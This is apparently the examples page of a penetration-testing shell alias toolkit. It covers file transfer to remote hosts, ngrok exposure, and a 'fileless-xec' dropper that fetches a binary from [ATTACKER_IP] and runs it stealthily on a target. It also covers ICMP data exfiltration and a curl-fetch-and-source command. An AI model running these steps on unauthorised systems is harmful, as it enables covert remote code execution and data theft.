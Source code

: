 # Examples

Some examples of bang usage

## `gitar`

### Share files

Start file sharing:
```
bang.gitar $AA
```
This will start a `gitar` http server and copy to your clipboard a command line to run on remote. Run it, you can now upload and download file from remote easily (without further installations [see](https://github.com/ariary/gitar/blob/main/README.md#tldr---and-listen-music)). 

#### Alternative 1 - Daemon
Launch gitar as a daemon, and kill it later when you want (=>no logs)
1. Start gitar: `bang.gitar.daemon $AA`(copy command line)
2. paste command line on remote
3. Do your stuff (`push`,`pull`, etc)
4. kill gitar: `bang.gitar.kill`

#### Alternative 2 - For `/bin/sh`
by default, `gitar` use completion. `/bin/sh` doesn't have `complete` enable. Hence launch gitar without this feature:
```
bang.gitar.no-completion $AA
```

### Share files safely

Same as above + inside a container + using https for encryption

Start safe file sharing:
```
bang.gitar-safe $AA
```

### Expose local file on internet

`ngrok` enable us to share local port on the internet. The idea is to start `gitar` server locally and then expose the local port on internet using `ngrok`

#### "Safe" version
***~>*** Expose local **HTTPS server** running in a **container**

1. Expose the server port on internet: `bang.expose-https 9237`
`ngrok` output the internet reachable address for your server. Note it (use `https` one preferably)
2. Start `gitar` HTTPS server in container: `bang.gitar-safe-override [NGROK_HTTPS_URL]`

If you have a browser you could now access to files on `[NGROK_HTTPS_URL]/pull`

If you have a shell you could load shortcut to upload/download file with:
```bash
curl -s [NGROK_HTTPS_URL]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

#### "Unsafe" version
***~>*** Expose local **HTTP server**

1. Expose the server port on internet: `bang.expose 9237`
`ngrok` output the internet reachable address for your server. Note it (use `https` one preferably)
2. Start `gitar` HTTP server : `bang.gitar-override [NGROK_HTTPS_URL]`

If you have a browser you could now access to files on `[NGROK_HTTPS_URL]/pull`

If you have a shell you could load shortcut to upload/download file with:
```bash
curl -s [NGROK_HTTPS_URL]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

*Notes: You could also use `python3 -m http.server 9237` to launch a server (only for "download file" use case)*

## `fileless-xec`

### Exec binary from a local HTTP server

This will launch an http server (to serve the local binary) and copy the `fileless-xec` command to paste on target machine:
```
bang.flx.client.cpy [ATTACKER_IP] [TARGET_PORT] [BINARY_NAME]
```
Now paste the command on target machine (to dl binary and stealthy execute it)

### Copy line to launch `fieleless-xec` stealth dropper

This will copy command line on your clipboard to launch fileless-xec on remote. (Previously, uploaded it to the remote machine)

```
bang.flxscpy
```

### Send a local file to remote `fileless-xec` to stealthy run it

This will send a local binary to a remote listening `fileless-xec`. The binary will be then executed (stealthy) on remote

```
bang.flxssend [TARGET_IP] [TARGET_PORT] [binary]
```

## `Queensono`

Exchange data using ICMP protocol

### Send a file trough ICMP

Send a file to `$TA`:
```
bang.queensono.send.file \$TA [FILENAME]
```
This will start a `gitar` http server and copy to your clipboard a command line to run on remote. Run it, you can now upload and download file from remote easily (without further installations [see](https://github.com/ariary/gitar/blob/main/README.md#tldr---and-listen-music)). 

#### Copy the line to send a file
```
bang.queensono.send.file.cpy $AA [FILENAME]
```

### Send a message trough ICMP
```
bang.queensono.send $TA "[MSG]"
```

#### Copy the line to send a message
```
bang.queensono.send.cpy $AA "[MSG]"
```

### Receive file trough ICMP
```
bang.queensono.receive.file [FILENAME]
```

#### Copy the line to receive file
```
bang.queensono.receive.file.cpy [FILENAME]
```

### Receive message trough ICMP
```
bang.queensono.receive
```

#### Copy the line to receive file
```
bang.queensono.receive.cpy
```


## Webdav server

[see](https://blog.ropnop.com/docker-for-pentesters/#example-6---serving-files-over-webdav)

This enable us to share all files of current directory trough a webdav server

```
bang.webdavhere
```

You can now access file from a remote machine (Windows) with the UNC path: `\\[ATTACKER_ADDR]@[ATTACKER_PORT]\share`

You could eventually expose server behind a internet address using `ngrok` (if you are behdin an NAT for exemple):
```
bang.expose 8080
```
Access file: `\\[NGROK_URL]@\share`

## Get the weather of your city

```
bang.fun.weather [CITY]
```

## Intercept request with command line

We will use `mitm-proxy` which enable us to capture HTTP flow.

1. Set up your proxy:
    * If you want to catch request to a specific domains: `bang.mitmproxy.intercept.request.domain [DOMAIN]`
    * If you want to catch all request: `bang.mitmproxy.intercept.request`
2. Perform a curl request trough your proxy: `bang.proxycurl http://[DOMAIN]`

***TIPS:*** You could use alias `pup.script` to parse the response (html) and get only script code

### Modify request
You will catch it in your mitm-proxy. Navigate over it, press `<ENTER>`
To edit it press `e` and select the field you want to modify.
When you have finished your modification: `<ECHAP>`, then press `q`, then press `q`again (requests view) and press `a` to perform the request

### Repeat request

[See](https://docs.mitmproxy.org/stable/mitmproxytutorial-replayrequests/)
